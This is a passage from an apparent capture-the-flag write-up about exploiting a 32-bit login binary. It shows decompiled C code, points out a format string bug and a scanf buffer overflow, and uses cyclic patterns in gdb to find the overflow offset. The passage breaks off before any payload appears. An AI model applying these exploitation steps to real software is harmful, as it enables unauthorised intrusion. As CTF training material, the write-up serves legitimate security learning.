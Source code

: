 ```c
  do {
    *(undefined4 *)(puVar1 + (int)(local_31 + 1)) = 0;
    puVar1 = puVar1 + 4;
  } while (puVar1 < auStack28 + -(int)(local_31 + 1));
  local_81._0_4_ = 0;
  uStack53 = 0;
  uVar4 = (uint)(local_31 + -(int)(local_81 + 1)) >> 2;
  puVar5 = (undefined4 *)(local_81 + 1);
  while (uVar4 != 0) {
    uVar4 = uVar4 - 1;
    *puVar5 = 0;
    puVar5 = puVar5 + (uint)bVar6 * -2 + 1;
  }
  fgets(local_81,0x50,stdin);
  sVar2 = strlen(local_81);
  (&cStack130)[sVar2] = '\0';
  printf("Bienvenue ");
  printf(local_81);
  printf("\npassword: ");
  __isoc99_scanf(&DAT_00012042,local_31);
  iVar3 = strcmp(local_31,local_81);
  if (iVar3 == 0) {
    puts("WTF ?");
  }
  return;
}
```

There is an obvious call to `printf` with `local_81`, which we can use in a format string exploit, and a call to `scanf`, which we'll use for our buffer overflow.

Starting with figuring out the offset:

```bash
$ cyclic 100  
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
$ gdb ./service
...
gef➤  r
Starting program: /home/vivescere/ctf/bof_2/service 
Hello authentifie toi !
Username: a
Bienvenue a
password: aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
...
────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "service", stopped 0x6e616161 in ?? (), reason: SIGSEGV
──────────────────────────────────────────────────────────────────────────────────────── trace ────
───────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ q
$ cyclic -l 0x6e616161
49
```
